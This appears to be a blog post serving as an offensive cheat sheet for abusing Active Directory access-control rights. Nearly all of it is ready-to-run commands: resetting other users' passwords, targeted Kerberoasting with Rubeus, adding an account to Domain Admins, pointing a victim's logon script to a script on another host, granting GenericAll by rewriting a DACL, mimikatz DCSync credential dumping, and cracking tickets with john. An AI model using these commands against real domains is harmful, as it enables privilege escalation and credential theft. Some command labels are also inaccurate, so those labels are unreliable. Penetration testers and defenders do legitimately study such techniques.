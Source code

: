 ```yaml
---
layout: post
date: 30/10/2022
author: Aswin Gopalakrishnan
title: ACL Abuse
---
```


Access Control Lists (ACLs) are an essential part of Windows Active Directory security. They are used to control access to resources such as files, folders, and network shares. However, ACLs can be abused by attackers to gain unauthorized access to sensitive data.

One common ACL abuse technique is known as "over-permissioning." This occurs when an administrator grants more permissions than necessary to a user or group. For example, granting "Full Control" to a user who only needs "Read" access. This can lead to unintended consequences, such as data leaks or unauthorized modifications.

## GenericAll / GenericWrite / WriteProperty

### On a User
- **Change Password**
    ```bash
    net user <username> <password> /domain
    ```
- **Targeted Kerberoasting**
    - Set a fake Service Principal Name (SPN):
        ```powershell
        Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
        ```
    - Obtain the hash:
        ```powershell
        .\Rubeus.exe kerberoast /user:<username> /nowrap
        ```
    - Clear the SPN:
        ```powershell
        Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose
        ```
- **Disable Preauthentication**
    ```powershell
    Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
    ```

### On a Group
- **Add to Group**
    - Using `net`:
        ```bash
        net group "domain admins" spotless/add /domain
        ```
    - Using Active Directory module:
        ```powershell
        Add-ADGroupMember -Identity "domain admins" -Members spotless
        ```
    - Using PowerSploit:
        ```powershell
        Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
        ```

### On a Computer
- **Resource-Based Constrained Delegation (RBCD)**

## Special Rights Abuse

1. GenericWrite on User
- Overwrite logon script path for the target user:
```powershell
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```
2. AllExtendedRights

- Change Password
```bash
net user <username> <password> /domain
```

- Add to Group
   - Using `net`: 
	```bash
	net group "domain admins" spotless/add /domain
	```
	- Using Active Directory module:
	```powershell
	Add-ADGroupMember -Identity "domain admins" -Members spotless
	```
    - Using PowerView module:
	```powershell
	Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
	```
3. Self-Membership

	- Add to Group
```powershell
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```
4. ExtendedRight on
	- User-Force-Change-Password (Password Reset)
```powershell
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
Set-DomainUserPassword -Identity delegate -Verbose
```
5. WriteProperty
	- Add to Group
```powershell
Add-ADGroupMember -Identity MachineAdmins -Members $otherDomainUser
```
6. WriteOwner
	- Change the object’s owner
```powershell
Set-DomainObjectOwner -Identity testuser -Domain techcorp.local -OwnerIdentity "us\studentuser19"
```
	- Change Owner
```powershell
Get-ADObject -Identity "CN=Users,DC=contoso,DC=com" -Properties Owner | Select-Object -ExpandProperty Owner
```
7. WriteDACL
	- Grant Generic Permissions** (must be the owner)
```powershell
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local" 
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```
8. DCSync Attack 
	- The user running the command must have Replicating Directory Changes permissions in Active Directory. This is typically assigned to domain admins or equivalent privileged accounts.
```powershell
lsadump::dcsync /domain:<Domain> /user:<User>
lsadump::dcsync /domain:example.com /user:administrator
```

## Kerberoasting
Kerberoasting targets accounts with Kerberos service tickets by exploiting service principal names (SPNs) and cracking the tickets offline.

### Find Service Accounts
- Using Active Directory:
```powershell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

- Using PowerView:
```powershell
Get-DomainUser –SPN
```

### Escalation
- Use `Rubeus` to Kerberoast service accounts supporting RC4 encryption.
```bash
Rubeus.exe kerberoast /user:serviceaccount /simple /rc4opsec
```

### Crack Tickets
- Use `john` to crack Kerberos tickets:
```bash
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```